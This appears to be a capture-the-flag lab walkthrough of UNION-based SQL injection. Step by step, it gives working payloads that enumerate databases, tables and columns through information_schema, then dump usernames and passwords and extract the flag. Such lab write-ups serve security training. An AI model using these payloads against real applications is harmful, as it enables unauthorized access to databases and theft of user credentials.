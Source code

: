 # UNION Based SQL Injection Walkthrough

## Target URL

**acuhungf.eu1.ctfio.com**

---

## Task 1: Retrieve Article ID 2 by Manipulating the Query

### Attempt 1:

Query used:

```sql
1' and 1=1;--
```

Result: Did not produce the desired output.

![Task 1](./Assets/image.png)

### Attempt 2:

Query used:

```sql
1' UNION SELECT 1,2,3,4;--
```

Result: Displayed content but not the expected output.

![Task 2](./Assets/image%201.png)

### Successful Attempt:

Query used:

```sql
1' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the current database name.

![Task 3](./Assets/image%202.png)

### Alternative Method:

Query used:

```sql
0' OR id = '2
```

Result: Displayed the desired article ID 2.

![Task 4](./Assets/image%203.png)

---

## Task 2: Determine the Number of Columns

Query used:

```sql
0' UNION SELECT 1,2,3,4;--
```

Result: Identified the correct number of columns.

![Task 5](./Assets/image%204.png)

---

## Task 3: Retrieve Characters

Query used:

```sql
0' UNION SELECT 1,2,3,'hello';--
```

Result: Verified that character data can be retrieved.

![Task 6](./Assets/image%205.png)

---

## Task 4: Retrieve Current Database Name

Query used:

```sql
0' UNION SELECT 1,2,3,DATABASE();--
```

Result: Successfully retrieved the database name.

![Task 7](./Assets/image%206.png)

---

## Task 5: Extract Database Names

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(SCHEMA_NAME) FROM information_schema.SCHEMATA;--
```

Result: Extracted all database names.

![Task 8](./Assets/image%207.png)

---

## Task 6: Extract Table Names

Query used:

```sql
0' UNION SELECT 1,2,3,TABLE_NAME FROM information_schema.TABLES;--
```

Result: Retrieved table names but not the expected output.

![Task 9](./Assets/image%208.png)

### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_SCHEMA='sqli_two');--
```

Result: Successfully listed all tables in the `sqli_two` database.

![Task 10](./Assets/image%209.png)

---

## Task 7: Extract Column Names from 'users' Table

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS;--
```

Result: Retrieved all column names but not the expected output.

![Task 11](./Assets/image%2010.png)

### Improved Query:

```sql
0' UNION SELECT 1,2,3,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_two' AND TABLE_NAME='users');--
```

Result: Successfully retrieved column names for the `users` table.

![Task 12](./Assets/image%2011.png)

---

## Task 8: Extract User Credentials

Query used:

```sql
0' UNION SELECT 1,2,username,password FROM users;--
```

Result: Successfully retrieved usernames and passwords.

![Task 13](./Assets/image%2012.png)

---

## Task 9: Extract All Users in One Query

Query used:

```sql
0' UNION SELECT 1,2,3,GROUP_CONCAT(CONCAT(username,':',password)) FROM users;--
```

Result: Successfully retrieved all usernames and passwords in a single row.

![Task 14](./Assets/image%2013.png)

---

## Final Task: Retrieve the Flag

Query used:

```sql
0' UNION SELECT 1,2,3,flag FROM flag;--
```

Result: Successfully extracted the flag.

![Final Task](./Assets/image%2014.png)

---

## Summary

This walkthrough demonstrates how to exploit UNION-based SQL Injection step by step, starting from retrieving the number of columns to extracting critical data such as database names, table names, column names, and user credentials. The final task was to extract the flag, successfully completing the lab challenge.

---
